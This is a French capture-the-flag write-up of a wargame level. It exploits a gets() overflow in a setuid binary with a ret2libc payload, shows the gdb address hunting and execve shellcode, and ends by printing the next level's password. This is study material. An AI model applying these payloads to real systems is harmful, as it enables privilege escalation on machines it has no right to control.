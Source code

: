 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1004(level04) gid=1004(level04) groups=1004(level04),100(users)
/home/users/level04
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
```

Je trouve un binaire `level04`, que je tente d'éxecuter :

```bash
$ ./level04
Give me some shellcode, k
hiii
child is exiting...
```

J'essaye alors de lui donner le `shellcode` pour [/bin/sh](https://shell-storm.org/shellcode/files/shellcode-827.html) : 

```bash
$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
child is exiting...
```

Sans succès, je décompile le binaire avec [Dogbolt](https://dogbolt.org/?id=d27e3b04-b575-4126-af26-7c135c61096e#Hex-Rays=166) :

```c
int main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char buffer[128]; // [esp+20h] [ebp-98h] BYREF
  int ptrace_result; // [esp+A8h] [ebp-10h]
  pid_t pid; // [esp+ACh] [ebp-Ch]

  pid = fork();

  memset(buffer, 0, sizeof(buffer));
  ptrace_result = 0;
  stat_loc = 0;

  if ( pid )
  {
    do
    {
      wait(&stat_loc);

      if ( (stat_loc & 0x7F) == 0 || (stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      ptrace_result = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( ptrace_result != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
  return 0;
}
```

Je ne comprend pas grand chose à cette fonction, mais j'observe très rapidement la présence du vulnérable `gets()` qui écrit dans un buffer de taille 128, mais qui n'a pas de limite dans la taille d'écriture. Je peux donc, comme dans `Rainfall` et avec la vulnérabilité `Ret2Libc` des exercices précédents, ré-écrire sur l'adresse de `main()` afin de pointer vers `system()`, `exit()` (toujours optionel) et `/bin/sh`.

J'utilise `gdb` pour trouver ces adresses :

```h
$ gdb ./level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) b main
Breakpoint 1 at 0x80486cd

(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()

(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system <---------------------- ici
0xf7f48a50  svcerr_systemerr

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit <------------------------ ici
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit

(gdb) info proc mappings
process 2492
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so <--- libc
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so <--- end
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec <------------------------ ici
1 pattern found.
```

Comme au `level01`, je cherche le padding du payload en analysant `gdb` :

```h
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
=> 0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp
```

Ici, je vois un alignement sur 16 bytes, comme précédamment, et que la stack se voit allouer `0xb0` bytes de mémoire, soit 176.

`Dogbolt`, ainsi que `(gdb) disas main` me donnent les deux l'information que le buffer commence à `esp+20` :

```c
  char buffer[128]; // [esp+20h]
```

Cela correspond à `0x20` bytes, soit 32. Je peux donc soustraire cela du total alloué et trouve 144.
Comme pour le `level01`, j'ajoute 8 bytes (4 pour écrire sur `ebp`, puis 4 pour écrire sur la `return address` de main).

Cela me donne un total de 152 bytes de padding. J'essaye le même payload que dans le `level01` : 

```bash
$ (python -c 'print("\x90"*152 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-
1])'; cat) | ./level04
Give me some shellcode, k
child is exiting...
whoami
$
```

Mais c'est sans succès. Je tente d'aligner sur 16 bytes comme précédamment :

```bash
$ (python -c 'print("\x90"*160 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-
1])'; cat) | ./level04
Give me some shellcode, k
whoami

^C
```

Sans succès également. En examinant l'ASM à nouveau, je me rend compte que contrairement au `level01`, il y a un call à `fork()` avant l'allocation du buffer, il est donc probable que l'adresse de retour de `fork()` ait été push dans la stack, et occupe donc 4 bytes supplémentaire.

Je tente avec 152 + 4 bytes :

```bash
$ (python -c 'print("\x90"*156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1
] + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
```
